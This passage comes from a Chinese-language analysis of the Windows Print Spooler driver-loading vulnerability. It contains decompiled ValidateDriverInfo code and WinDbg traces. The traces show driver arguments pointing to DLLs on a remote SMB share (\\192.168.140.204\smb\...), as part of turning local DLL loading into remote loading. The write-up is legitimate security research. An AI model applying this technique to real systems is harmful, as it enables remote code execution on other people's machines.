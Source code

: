 ```
0:005> r rax
rax=0000000000000001    // 成功返回 1 
```

*   **控制 pConfigFile**

通过前面分析，我们已经有办法可以让 Spooler 服务加载指定 DLL，还是要试一下看它可不可以加载网络上的文件，这样影响将更大一些（本地变远程）。如果将 pConfigFile 直接设置为 UNC 路径（网络路径）会报错。这是因为在 InternalAddPrinterDriverEx 调用 ValidateDriverInfo 函数时会进行以下判断，如果 dwFileCopyFlags 设置了 0x10，pDriverPath 和 pConfigFile 必须是本地文件，否则就会产生 0x57 错误。

```
if ( length_index < 0x104 )
{
  if ( !(dwFileCopyFlags & 0x10)
    || (unsigned int)IsLocalFile(pDriverPath) && (unsigned int)IsLocalFile(pConfigFile) )
  {
     ……
  }
  else
  {
    v12 = WPP_GLOBAL_Control;
    if ( (_UNKNOWN *)WPP_GLOBAL_Control != &WPP_GLOBAL_Control && *(_BYTE *)(WPP_GLOBAL_Control + 68i64) & 0x10 )
    {
      WPP_SF_SSS(*(_QWORD *)(WPP_GLOBAL_Control + 0x38i64), 0x15i64);
      v12 = WPP_GLOBAL_Control;
    }
    v9 = 0x57;
  }
}

```

以下为调试时信息，可更加直观展示这一流程：

```
0:002> g
Breakpoint 4 hit
localspl!ValidateDriverInfo:
00007ffa`b60a181c 48895c2410      mov     qword ptr [rsp+10h],rbx ss:00000068`0218e2e8=0000000000000000
 
0:002> dq rcx
00000254`fd11a600  00000000`00000003 00000254`fc86e900
00000254`fd11a610  00000254`fc86e928 00000254`fc86e94c
00000254`fd11a620  00000254`fc86ea20 00000254`fc86ea6c
00000254`fd11a630  00000030`4d454d4c 00000254`fd118e58
00000254`fd11a640  00000254`fd118e60 80000100`e5061f36
00000254`fd11a650  00000000`00000003 00000254`fc866080
00000254`fd11a660  00000254`fc8660a8 00000254`fc8660cc
00000254`fd11a670  00000254`fc8661a0 00000254`fc8661ec
 
0:002> du 254`fc86e900    // pName
00000254`fc86e900  "Test printer"
0:002> du 254`fc86e928    // pEnvironment
00000254`fc86e928  "Windows x64"
0:002> du 254`fc86e94c    // pDriverPath
00000254`fc86e94c  "C:\Windows\System32\DriverStore\"
00000254`fc86e98c  "FileRepository\ntprint.inf_amd64"
00000254`fc86e9cc  "_18b0d38ddfaee729\Amd64\UNIDRV.D"
00000254`fc86ea0c  "LL"
0:002> du 254`fc86ea20    // pDataFile
00000254`fc86ea20  "\\192.168.140.204\smb\asd.dll"
0:002> du 254`fc86ea6c    // pConfigFile
00000254`fc86ea6c  "\\192.168.140.204\smb\netlogon."
00000254`fc86eaac  "dll"
```
